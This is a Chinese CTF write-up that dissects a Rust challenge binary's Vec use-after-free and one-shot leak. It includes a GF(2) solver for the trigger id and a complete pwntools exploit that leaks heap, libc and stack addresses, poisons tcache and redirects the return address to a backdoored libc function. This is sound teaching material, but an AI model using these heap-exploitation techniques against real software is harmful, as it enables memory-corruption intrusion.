





# 深入剖析 Rust Vec 的 UAF（Use After Free）漏洞及其利用方式-先知社区

> **来源**: https://xz.aliyun.com/news/16139  
> **文章ID**: 16139

---

## 1 序

`Vec` 是 Rust 中一个强大且广泛使用的动态数组类型，`Vec<T>` 是基于动态数组实现的，可以存储多个同类型的元素，并且在需要时动态扩容。

### 1.1 底层结构

在底层，`Vec` 使用了一块连续的内存来存储元素。其核心结构如下：

* **指针**（`ptr`）：指向存储元素的内存块的起始地址。
* **长度**（`len`）：表示当前 `Vec` 中实际存储的元素数量。
* **容量**（`capacity`）：表示当前 `Vec` 已分配的最大元素数量。`capacity` 总是大于或等于 `len`。

底层的表示如下：

```
pub struct Vec<T> {
    ptr: *mut T,       // 元素的指针
    len: usize,        // 元素的数量
    capacity: usize,   // 已分配的容量
}

```

### 1.2 内存分配

* 初始创建时，`Vec` 通常没有分配内存，直到添加第一个元素时才分配。
* 如果需要扩容，`Vec` 会分配一块新的更大的内存（通常是原容量的两倍），然后将现有元素移动到新内存中。
* `Vec` 使用的是堆内存，由标准库的分配器（allocator）负责管理。

### 1.3 高效操作

* **随机访问**：`Vec` 提供了高效的随机访问，时间复杂度为 O(1)，因为元素是连续存储的。
* **迭代**：迭代器会利用指针加法直接遍历元素，也非常高效。

### 1.4 安全特性

Rust 的借用检查器确保对 `Vec` 的操作是安全的：

* 防止越界访问。
* 确保多个线程中对 `Vec` 的访问满足线程安全性（需要 `Arc<Mutex<Vec<T>>>`）。

基于上述特性，结合2024年山东省省赛的一解题`rust but signin`来学习一下Rust `Vec`的`UAF`漏洞及其利用方式

## 2 程序分析

虽然是rust编译的程序，但是总体逻辑非常明显：

  
第一个功能是增加`Vec`对象，限制了最多只能添加`0x10`个，这里的逻辑非常简单，也没有什么漏洞点。

第二个功能是删除对象，这里存在一个很明显的全局变量`pwn::UAF_FLAG`，同时这里存在这样的判断：

```
if ( pwn::UAF_FLAG || (v23 = pwn::do_something(v24[0]), (v24[0] ^ v23) != 0xFFFFFFFF) )
  {
    if ( pwn::UAF_FLAG )
    {
     ...
    }
    else
    {
      ...
    }
    core::fmt::Arguments::new_const(v34, &off_67B68, 1LL);
    std::io::stdio::_print();
    return core::ptr::drop_in_place<alloc::string::String>(v26);
  }
  else
  {
    pwn::UAF_FLAG = 1;
    core::fmt::Arguments::new_const(v30, &off_67BC8, 1LL);
    std::io::stdio::_print();
    return core::ptr::drop_in_place<alloc::string::String>(v26);
  }

```

也就是说，当全局变量`pwn::UAF_FLAG`不为`0`的时候会触发`uaf`漏洞，而当`(v23 = pwn::do_something(v24[0]), (v24[0] ^ v23) != 0xFFFFFFFF)`判断结果为假的时候将会把该全局变量置`1`，也就是说当`pwn::do_something(v24[0]) ^ v24[0] == 0xFFFFFFFF`时才会满足条件，那么这个`24[0]`是什么呢？调试发现这个就是输入的`id`值，那么接下来我们的任务就是搞清楚这个`pwn::do_something`函数在做什么。

主要逻辑在这个循环里面：

```
while ( 1 )
  {
    v53 = <core::iter::adapters::enumerate::Enumerate<I> as core::iter::traits::iterator::Iterator>::next(
            v50,
            v5,
            v6,
            v7,
            v8,
            v9,
            v20,
            v21,
            v22,
            v23,
            v24,
            v25,
            v26,
            v28,
            v29,
            v30);
    v54 = v6;
    v7 = 0;
    if ( v6 == 0x110000 )
      break;
    v29 = v53;
    if ( v54 == 0x31 )
    {
      v16 = <alloc::string::String as core::ops::deref::Deref>::deref(v47);
      v23 = <alloc::vec::Vec<T,A> as core::ops::index::Index<I>>::index(
              v33,
              v29,
              &off_67AC0,
              v16,
              v18,
              v19,
              v20,
              v16,
              v17,
              v23,
              v17,
              v16,
              v26,
              v28);
      LODWORD(v5) = v21;
      pwn::mix(&v55, v21, v22, *v23, v23[1]);
      core::ptr::drop_in_place<alloc::string::String>(v47);
      v47[0] = *&v55.exception_class;
      v47[1] = v55.exception_cleanup;
      v47[2] = *&v55.private_1;
    }
  }

```

显然这个`v54`很关键，他会影响是否触发`pwn::mix(&v55, v21, v22, *v23, v23[1])`函数，但是我们直接看看不出来这个值是什么，输入`123`动调观察：  
  
观察到存在一个二进制数`0000000000000000000000001111011`刚刚好就是`123`，多次执行后发现这里就是将输入的id转化为二进制数后从左向右依次取出1位作为比对，如果这一位刚刚好是`1`就执行`pwn::mix`函数，观察这个执行这个函数前后的寄存器状态：  




  
很明显观察出，这个函数就是执行了一个异或操作，每次异或的是一个`0x20`大小的01字符串，而这个字符串来源于bss上的一个全局数组，那么其实这个函数的逻辑就很好理解了：

将用户输入的数字转成二进制数，如果该位为`1`，就将一个初始值`0`与二进制数数组进行异或操作，最后的异或结果是`v23`，其实问题转换为从这32个数中选择部分异或，得到结果满足`v24[0] ^ v23 == 0xFFFFFFFF`，再转化一下，相当于说，计算一个有32个未知数的32个一次异或方程组，直接将数组dump出来求解：

```
//g++ poc.cpp -o poc
#include <iostream>
#include <cstdio>
#include <cmath>
#include <algorithm>
#include <vector>
#include <iomanip>

using namespace std;

#define N 130
#define eps 1e-8
#define ll long long

int n;
int a[N][N];

int gauss() {
    int r, c;
    for (r = 0, c = 0; c < n; ++c) {
        int t = r;
        for (int i = r; i < n; ++i) {
            if (a[i][c]) {
                t = i;
                break;
            }
        }
        if (!a[t][c]) 
            continue;

        for (int i = c; i <= n; ++i) 
            swap(a[r][i], a[t][i]);

        for (int i = r+1; i < n; ++i) {
            if (a[i][c]) {
                for (int j = n; j >= c; --j)
                    a[i][j] ^= a[r][j];
            }
        }

        ++ r;
    }

    if (r < n) {
        for (int i = r; i < n; ++i) {
            if (a[i][n])
                return 2;
        }
        return 1;
    }

    for (int i = n-1; i >= 0; --i) {
        for (int j = i+1; j < n; ++j)
            a[i][n] ^= a[i][j] & a[j][n];
    }

    return 0;
}

int main() {
    ios::sync_with_stdio(0);
    cin.tie(0);

    cin >> n;
    for (int i = 0; i < n; ++i) {
        for (int j = 0; j < n+1; ++j)
            cin >> a[i][j];
    }

    int res = gauss();

    if (res == 2)
        cout << "No solution";
    else if (res == 1)
        cout << "Multiple sets of solutions";
    else {
        for (int i = 0; i < n; ++i)
            cout << a[i][n] << endl;
    }
    return 0;
}

```

导出数据后使用python求解：

```
A = '''00101010100111010001010011111010
01001111011111011011100010010011
11010100101110110011010001001111
10011110010111010010100110111011
10000010101100100101000111110110
11010010110001010000000101001001
00110111000010010111010000001010
10010011001001110101010110011111
10010101001110011011110000111011
01010000010011101111001000111001
01111001111111100000000001100001
01011010001011100000000010011101
10111001100100101101100000111100
00010111011011001111000100000001
11110111110110101011001110110010
10110010110001011110000001101100
11100111000001110001011101001100
01011000101101001011100001011100
00110110010010010010010100000011
00100101100000110001011111000010
10011111110010010110001110101110
00110001110000001011011111100000
10010111101010010111011101111101
00011011000111101001000110011101
01110100100000010100111100011001
11100010011100101000001011100010
11110010100111110000001101110111
00100100010100100001110001110101
01000001100001010100001011001000
10010100010111111010000000000100
10100110111010100000010101111000
01000111011010011010101010101011'''
from pwn import *
p = process('./poc')
p.sendline(b'32')
A = A.splitlines()
nmsl = b''
for j in range(32):
    payload = b''
    for i in A:
        payload += (i[j]).encode() + b' '
    payload += b'1'
    p.sendline(payload)
for i in range(32):
    nmsl += p.recvuntil(b'\n')[:-1]
print(int(nmsl.decode(), 2))
p.interactive()
# 3957556225

```

输入`3957556225`后就能正常触发`uaf`了。

接下来我们看第三个功能，添加元素到`Vec`对象中：

```
if ( v13 + v32 > 2 )
  {
    core::fmt::Arguments::new_const(v46, &off_67D20, 1LL);
    std::io::stdio::_print();
    core::ptr::drop_in_place<alloc::string::String>(v42);
    return core::ptr::drop_in_place<alloc::string::String>(v37);
  }

```

根据报错字符串以及代码可以看出，添加的元素数量不能大于2个，否则就会报错，这也导致了后续漏洞利用的困难性。

第四个功能是查看元素的功能，这里和前面一样存在一个显而易见的全局变量`pwn::LEAK_FLAG`：

```
if ( pwn::LEAK_FLAG == 1 && <i64 as pwn::Trait>::abs(1131796LL) == v23 )
  {
    v37 = 0;
    v38 = 4;
    v39[0] = <I as core::iter::traits::collect::IntoIterator>::into_iter(0LL, 4LL);
    v39[1] = v13;
    while ( 1 )
    {
      ...
    }
    pwn::LEAK_FLAG = 0;
  }
  else
  {
    v22 = alloc::collections::vec_deque::VecDeque<T,A>::get_mut(v24, v23);
    v46 = core::option::Option<T>::unwrap(v22, &off_67E10);
    v48[8] = &v46;
    v48[9] = <&mut T as core::fmt::Display>::fmt;
    v48[0] = &v46;
    v48[1] = <&mut T as core::fmt::Display>::fmt;
    core::fmt::Arguments::new_v1(v47, &off_67E28, 2LL, v48, 1LL, v17, &v46, <&mut T as core::fmt::Display>::fmt);
    std::io::stdio::_print();
  }

```

这里明显是存在一个只能利用一次的`leak`漏洞，触发条件也很简单：

```
__int64 __fastcall <i64 as pwn::Trait>::abs(__int64 a1)
{
  return a1 ^ 0x1177;
}

```

也就是说只需要`1131796 ^ 0x1177 == v23`即可。但是这里的`leak`是用来干什么的呢？由于`Vec`的特性，当我们创建了一个全新的`Vec`对象时，由于他的元素数量是0，即使有未初始化我们也无法泄露出有用的信息，因此这里相当于提供了一次额外的泄漏机会。

### 3 漏洞利用

结合前面的漏洞，我们已知的有无限制的`uaf`漏洞和一次`leak`漏洞，那么我们如何实现同时泄露堆地址和`libc`地址呢？其实对于堆地址和`libc`地址的泄露只需要通过`create`->`append`->`delete`->`view`就能实现绕过`VecDeque`的检查拿到地址，因为`uaf`的时候并没有清空元素数量，依旧保留了`Vec`的属性：

```
alloc(0x80)
append(0, [0x41] * 2)
free(3957556225)
free(0)
view(0, 0)
key = int(p.recvline().decode().split(' ')[2])
heap_addr = key << 12
log.info(f"{hex(heap_addr)=}")

```

同理可以用这种方法泄露出`libc`的地址，同时由于我们有一次任意地址泄露的机会，可以用来泄露出存在`environ`中的环境变量地址，也就是栈地址。

由于我们能写入的数据太少了，难以通过`IO`或者`ROP`进行后续的利用，注意到题目提供了一个`poc`，观察发现：

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int x; // [rsp+0h] [rbp-10h] BYREF
  int v5; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  __isoc99_scanf("%d", &x);
  v5 = abs(x);
  printf("%d", v5);
  return 0;
}

```

只有一个`abs`函数，按理来说`abs`会被编译优化掉，这里的`abs`函数显然不太正常，查看`libc`中的`abs`果然存在后门：

```
int __fastcall abs(int i)
{
  int result; // eax

  if ( i == 1131796 )
    system("cat /flag");
  result = -i;
  if ( i > 0 )
    return i;
  return result;
}

```

那么接下来就简单了，直接在栈上的返回地址写后门函数即可。

### 4 完整exp

```
from pwn import *

bin = ELF('./pwn')
lib = ELF('./libc.so.6')
context(arch = 'amd64')
p = process('./dockerfile/files/pwn')
def alloc(size):
    p.recvuntil(b'>')
    p.sendline(b'1')
    p.recvuntil(b'>')
    p.sendline(str(size).encode())


def free(index):
    p.recvuntil(b'>')
    p.sendline(b'2')
    p.recvuntil(b'>')
    p.sendline(str(index).encode())


def append(index, values):
    p.recvuntil(b'>')
    p.sendline(b'3')
    p.recvuntil(b'>')
    p.sendline(str(index).encode())
    p.recvuntil(b'>')
    p.sendline(str(len(values)).encode())
    for v in values:
        p.recvuntil(b'>')
        p.sendline(str(v).encode())


def view(index, subindex):
    p.recvuntil(b'>')
    p.sendline(b'4')
    p.recvuntil(b'>')
    p.sendline(str(index).encode())
    p.recvuntil(b'>')
    p.sendline(str(subindex).encode())


alloc(0x80) # 0
append(0, [0x41] * 2)
free(3957556225)
free(0)
view(0, 0)
key = int(p.recvline().decode().split(' ')[2])
heap_addr = key << 12
log.info(f"{hex(heap_addr)=}")
alloc(0x4f0) # 1
alloc(0x4f0) # 2
append(1, [0x42] * 2)
free(1)
view(1, 0)
base_addr = int(p.recvline().decode().split(' ')[2]) - 0x1bcb20
environ_addr = base_addr + lib.sym['environ'] - 0x18
log.info(f"{hex(environ_addr)=}")
log.info(f"{hex(base_addr)=}")
alloc(0x80) # 3
alloc(0x80) # 4
alloc(0x80) # 5
alloc(0x80) # 6
append(3, [0x41] * 2)
# free(6)
free(5)
free(4)
free(3)
append(4, [(key + 1) ^ environ_addr])
alloc(0x80) # 7
alloc(0x80) # 8
alloc(0x80) # 9
view(9, 1135715)
[p.recvline() for _ in range(3)]
stack_addr = int(p.recvline().decode().split(' ')[4]) - 0x650 - 0x10
if stack_addr & 0xf == 8:
    stack_addr += 8
log.info(f"{hex(stack_addr)=}")
alloc(0x80) # 10
alloc(0x80) # 11

free(10)
free(11)
append(11, [(key + 2) ^ stack_addr])
#gdb.attach(p)
alloc(0x80) # 12
alloc(0x80) # 13
#gdb.attach(p, 'breakrva 0xC1F4')
backdoor = base_addr + 0x38A70
append(13, [backdoor] * 2)
p.interactive()

```

效果：  

